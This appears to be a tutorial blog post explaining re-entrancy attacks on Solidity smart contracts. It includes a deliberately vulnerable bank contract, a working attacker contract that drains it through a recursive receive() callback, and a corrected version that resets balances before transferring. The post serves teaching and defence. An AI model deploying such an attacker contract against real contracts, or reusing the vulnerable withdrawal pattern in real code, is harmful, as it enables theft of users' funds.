 ```yaml
---
layout: post
title: Re-entrancy attacks in Smart Contracts
categories: [smart contracts]
---
```


I've been playing around with smart contracts recently. In this post I explain a re-entrancy attacks, a common security flaw in many smart contracts. Re-entrancy attacks occur when a smart contract function temporarily abandons the transaction's control flow by making an external call to a contract written by unknown or hostile actors. This allows the latter contract to make a recursive call to the primary smart contract function to drain its funds.

The steps in this attack are as follows:

1. The attacker requests the vulnerable Contract **X** to transfer funds to the malicious Contract **Y**.
2. Contract **X** determines if the attacker has the required funds, and then transfers the funds to Contract **Y**.
3. The attacker then executes a callback function. Once Contract **Y** receives the funds, it executes a callback function that calls Contract **X** back before updating the account balance.
4. This recursive process continues until all funds are used up and transferred.

Re-entrancy attacks are best illustrated by an example. Consider this simple Bank contract called **EOABank**:

```solidity
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.9;

contract EOABank {

    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawAll() public {
        (bool success, ) = msg.sender.call{ value: balances[msg.sender] }("");
        require(success, "Transaction failed!");
        balances[msg.sender] = 0;
    }
}
```

What this contract does is simple. It accepts payments through the `deposit()` function and allows withdrawal of all funds with the `withdrawAll()` function.

## How can this EOABank contract be attacked?

Consider this **Attacker** contract:

```solidity
contract Attacker {

    EOABank public exploitBank;

    constructor(address _thebankAddress) {
        exploitBank = EOABank(_thebankAddress);
    }

    // fallback
    receive() external payable {
        if (address(exploitBank).balance >= 1 ether) {
            exploitBank.withdrawAll();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        // send 1 Ether
        exploitBank.deposit{value: 1 ether}();
        // immediately withdraw
        exploitBank.withdrawAll();
    }

}
```

This contract expects the address of the **EOABank** contract at deployment. It also overwrites the `receive()` function (usually a fallback function in every smart contract) with its own functionality. The `attack()` function is where **EOABank** is attacked.

Let's go through the steps of this attack in more detail:
![](/images/reentrancy.png)

1. The Attacker contract deposits 1 Ether at **EOABank**.
2. The funds are immediately withdrawn.
3. The withdrawal triggers the `receive()` function. This happens before `balances` is set to 0.
4. The `receive()` function allows execution of arbitrary code. The Attacker uses this to call `withdrawAll()` again.
5. Here the loop starts between `receive()` and `withdrawAll()` until all funds are drained.
6. The loop.
7. Only after all funds are drained, `balances` is set to 0.

## What would a safe implementation of EOABank look like?

```solidity
contract EOABank {

    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawAll() public {
        // save balances in new variable
        uint256 bal = balances[msg.sender];
        // reset balances
        balances[msg.sender] = 0;
        // transfer
        (bool success, ) = msg.sender.call{ value: bal }("");
        require(success, "Transaction failed!");
    }
}
```

Notice the difference. First, the `balances` value is saved in a new variable `bal`. Second, the `balances` are set to 0 before transferring the value. In this way, **EOABank** is safe from Re-entrancy attacks.
